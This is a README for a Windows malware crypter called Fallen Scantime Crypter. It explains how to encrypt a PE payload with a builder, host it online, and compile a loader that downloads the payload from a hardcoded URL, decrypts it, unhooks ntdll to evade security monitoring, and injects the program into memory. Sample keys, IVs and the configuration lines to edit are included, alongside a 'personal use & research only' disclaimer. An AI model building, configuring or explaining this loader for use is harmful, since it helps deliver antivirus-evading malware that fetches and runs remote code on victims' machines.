 # FSTC-August-2024
Fallen Scantime Crypter: August 2024

## Notes

Download encrypted file from URL 

Decrypt the file & save to disk

Loads ntdll from disk

Maps sections between new ntdll & hooked ntdll / unhooks

Injects the original exe program to memory

For personal use & research only

## Usage

Build.exe will take an original PE, encrypt with a key and save the new file. You can skip the option key if you want a randomly generated key to be used.
```
Usage: Build.exe <path_to_original_PE> <path_to_output_encrypted_file> [32_byte_key]
Example: Build.exe test_payload.exe encrypted_payload.bin 0123456789abcdef0123456789abcdef
```

After building you will see output in your terminal like this:
```
[*] Generated random 32-byte key: 7ddd25d6c2317d1ecd78cf6b301e3e22866e3458926b9e5badcb42f409684d83
BYTE key[] = { 0x7d, 0xdd, 0x25, 0xd6, 0xc2, 0x31, 0x7d, 0x1e, 0xcd, 0x78, 0xcf, 0x6b, 0x30, 0x1e, 0x3e, 0x22, 0x86, 0x6e, 0x34, 0x58, 0x92, 0x6b, 0x9e, 0x5b, 0xad, 0xcb, 0x42, 0xf4, 0x09, 0x68, 0x4d, 0x83 };
[*] Generated random 16-byte IV: 3036fc85a678d7bff499112ea8257b13
BYTE iv[] = { 0x30, 0x36, 0xfc, 0x85, 0xa6, 0x78, 0xd7, 0xbf, 0xf4, 0x99, 0x11, 0x2e, 0xa8, 0x25, 0x7b, 0x13 };
[*] File encrypted successfully.
```

Once you encrypt your original program with Build, you should upload it to a server and get the public URL.

Then, go to FSTC project/code and edit the main file ( int main() ) for these 3 lines:
```
LPCWSTR url = L"https://github.com/LNodesL/FSTC-August-2024/raw/218a78376b7249fc6231fd96a04827e1ffbfae3d/resources/Payload-Demo.fstc";
BYTE key[] = { 0x8b, 0xc9, 0x62, 0xf5, 0xb6, 0x2c, 0x4d, 0x43, 0xb3, 0xc0, 0x8e, 0xec, 0x55, 0x1d, 0x40, 0x77, 0x49, 0xea, 0x98, 0x44, 0x9d, 0x76, 0xc9, 0xec, 0xeb, 0x66, 0x94, 0x91, 0x98, 0xa3, 0x65, 0xb2 };
BYTE iv[] = { 0x2d, 0xb4, 0xa8, 0xab, 0x77, 0x7b, 0x42, 0x84, 0x80, 0x7c, 0xb9, 0x66, 0x31, 0x48, 0xae, 0x43 };
```

Now compile FSTC, which will download your payload from the URL, decrypt, attempt to unhook ntdll, and create a process for the PE as-is.

## Versions

0.0.2 - Uses memory method, to download, decrypt, and inject the original program to memory without saving to disk
- main branch

0.0.1 - Does not use memory method, drops file to current working directory, and uses tmp process
- https://github.com/LNodesL/FSTC-August-2024/tree/drop-file-run-process


## Future Development

- allow builder to modify the final FSTC.exe program's resources or other data to make it easier to build for a new payload/URL without re-compiling

